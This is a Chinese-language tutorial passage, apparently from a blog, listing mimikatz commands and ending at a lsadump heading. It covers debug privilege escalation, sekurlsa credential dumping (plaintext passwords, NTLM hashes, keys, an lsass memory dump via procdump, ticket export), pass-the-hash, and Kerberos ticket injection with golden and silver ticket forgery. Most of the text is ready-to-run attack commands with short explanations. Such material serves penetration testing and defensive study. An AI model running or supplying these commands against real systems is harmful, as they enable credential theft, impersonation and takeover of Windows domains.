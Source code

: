 ### privilege  

提权模块，提权到调试内核权限，所以能够读取内存，需要管理员控制台窗口才能执行成功命令。  

```C
privilege::debug
```

### sekurlsa模块  

枚举凭据的命令，这些我在win11上运行报错 “ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list”，网上说是mimikatz版本太旧了，我尝试了github上最新版本还是不行，但是在win server 2012 上可以运行成功。  

```Py
#只抓取内存中保存的明文密码
sekurlsa::wdigest
#只抓取内存中保存的用户hash
sekurlsa::msv
#只抓取内存中保存的用户密码的key值
sekurlsa::ekeys
#抓取内存中保存的用户所有凭据
"sekurlsa::logonpasswords"
#加载dmp文件，并导出其中明文密码
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::mimidmp lsass.dmp
sekurlsa::logonpasswords full
#导出lsass.exe进程中的所有票据
sekurlsa::tickets /export
sekurlsa::pth /user:USER /domain:jevon.com /ntlm:dasdasdasd
```

关于抓取明文密码，从windows server 2012开始不能直接抓取，只能抓取hash，是因为微软的某个补丁关闭了WDigest Auth，所以没有明文密码的存储，具体的请看其他文章。  

### kerberos模块  

```Py
#查看内存中的tgt
kerberos::tgt
#查看内存中的所有票据
kerberos::list
#查看票据位置
kerberos:ptc
#清楚票据
kerberos::purge
#将票据注入到内存
kerberos::ptt xx.kirbi
#金票攻击
kerberos::golden /user:要伪造的用户 /domain:DOAMIN /sid:域的sid值 /krbtgt:这个账户的hash或key /ptt
#银票攻击
kerberos::golden /user:要伪造的用户 /domain:DOAMIN /sid:域的sid值 /target:服务机器域名或ip /service:服务 /rc4:服务账户hash /ptt
```

### lsadump模块
